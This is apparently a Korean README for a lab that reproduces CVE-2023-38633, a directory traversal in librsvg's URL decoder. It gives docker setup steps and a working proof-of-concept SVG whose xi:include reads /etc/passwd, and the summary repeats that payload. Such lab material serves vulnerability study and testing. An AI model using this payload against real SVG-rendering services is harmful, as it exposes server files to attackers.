 # CVE-2023-38633

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [이승환(@EL55)](https://github.com/EL55)


### 요약
- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 libsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 'href=".?../../../../../../../../../../etc/passwd"'와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 'href="?"?/../../.././etc/passwd'에 의해 알 수 있음.


### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-   `SVG 이미지를 서버에 업로드하면 '/etc/passwd'가 포함된 이미지가 표시됨.


### poc.svg
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

### 결과
![](1.png)
